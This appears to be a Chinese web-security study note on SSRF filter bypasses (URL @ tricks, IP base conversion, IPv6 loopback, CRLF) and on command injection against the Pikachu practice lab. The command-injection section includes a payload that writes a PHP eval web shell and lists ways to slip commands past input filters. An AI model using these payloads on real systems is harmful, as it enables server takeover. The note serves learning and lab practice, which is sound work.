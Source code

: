 ### 绕过思路

>  php 加@

```
http://www.aaa.com@www.bbb.com
```

> 短链接

> ip进制转换

```
2进制
8进制
16进制
ipv6:[::1]
颜文字数字：1️⃣
```

> CRLF编码

### 总结

- Xss跨站脚本攻击:利用HTML执行攻击，受害者是用户，盗取cookie
- CSRF跨站请求伪造:利用受害者未失效的身份认证信息，对服务器直接执行攻击
- SSRF服务器请求伪造:利用服务器的身份去执行攻击

## RCE任意命令执行漏洞

> 条件

1、代码中存在调用命令的函数

2、函数中存在用户可控的点

3、可控点没有过滤，或过滤不严格

> pikachu RCE exel ping 抓包

```
127.0.0.1 && echo "<?php eval($_GET['a']);?>" > rcshell.php
```

> 绕过思路

```
前提：需要知道服务器上的文件目录
拼接绕过，结合系统的特性来
linux   cat user.txt => a=c;b=at;c=user;$a$b $c.php	
windows可以使用环境变量特性，用~进行拼接
cat b >> a

空格绕过
+ %09

单引号，双引号绕过
cat user,txt => ca""t us''er.txt

转义符:\
cat user.txt =>ca\t u\s\e\r.txt

管道符:|
user.txt 进行base64编码 dXN1ci50eHQ=cat 
cat "dxNlci50eHQ=" | base64 -d
通配符绕过:
*:任意字符
?:任意单个字符
cat us??.txt   cat u???.???

```